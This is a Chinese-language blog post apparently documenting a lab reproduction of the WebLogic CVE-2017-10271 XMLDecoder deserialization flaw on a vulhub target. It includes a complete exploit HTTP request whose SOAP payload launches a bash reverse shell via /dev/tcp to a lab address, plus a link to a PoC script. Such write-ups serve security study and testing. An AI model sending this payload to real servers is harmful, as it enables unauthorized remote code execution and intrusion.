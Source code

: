 ```yaml
---
layout: post
title: "Weblogic(CVE-2017-10271)漏洞复现"
date: 2022-02-02
author: 2hanx
toc: true
categories: [漏洞复现]
tags: ["Weblogic", "CVE-2017-10271"]
---
```


### 应用介绍

WebLogic 是美国Oracle公司出品的一个 application server，确切的说是一个基于JAVAEE 架构的中间件，WebLogic 是用于开发、集成、部署和管理大型**分布式Web应用**、网络应用和数据库应用的Java 应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

> 来源百度百科

### 漏洞介绍

wls-wsat XMLDecoder 反序列化漏洞

### 漏洞危害

RCE

### 漏洞原理

Weblogic的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

### 环境搭建

照例使用 vulhub 上的靶机环境进行复现。

| 计算机         | IP                |
| -------------- | ----------------- |
| Kali           | `192.168.174.128` |
| Ubuntu         | `192.168.174.141` |
| Victim(Docker) | `192.168.80.2`    |

等待一段时间，访问`http://192.168.174.141:7001/`即可看到一个**404**页面，说明 weblogic 已成功启动。

![1]({{ '/weblogic/1.png' | prepend: site.url }})

### 漏洞复现

访问 *http://192.168.174.141:7001/wls-wsat/CoordinatorPortType* ，如下图所示则存在漏洞。

![2]({{ '/weblogic/2.png' | prepend: site.url }})

在 BP 上重放改请求，修改请求方法为 `POST`，并且添加请求包，完整请求内容为：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.174.141:7001
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ADMINCONSOLESESSION=mFc1h6VB4xdhTXcVtqJNZ78gjPJJZ4MVJm4RWqKvlwMv2TB2Cwj8!1626974212
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.141/8888 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

注意添加 *Content-Type* 请求头，并且需要将反弹 shell 语句中的特殊字符进行编码，虽然响应请求码是 *500* ，但仍能反弹成功。

![3]({{ '/weblogic/3.png' | prepend: site.url }})

### 漏洞验证

具体代码查看[这里](https://github.com/2hanX/poc-exp/blob/main/weblogic/CVE-2017-10271/exp_poc_cve-2017-10271.py)。

### 修复建议

升级最新版本。

### 总结

1. 已运行的 docker 容器添加额外监听端口

### Ref.

- [https://mp.weixin.qq.com/s/pb0GGzku4tYX6acYOrtOxQ](https://mp.weixin.qq.com/s/pb0GGzku4tYX6acYOrtOxQ)
- [https://blog.csdn.net/qq_35476650/article/details/118337714](https://blog.csdn.net/qq_35476650/article/details/118337714)

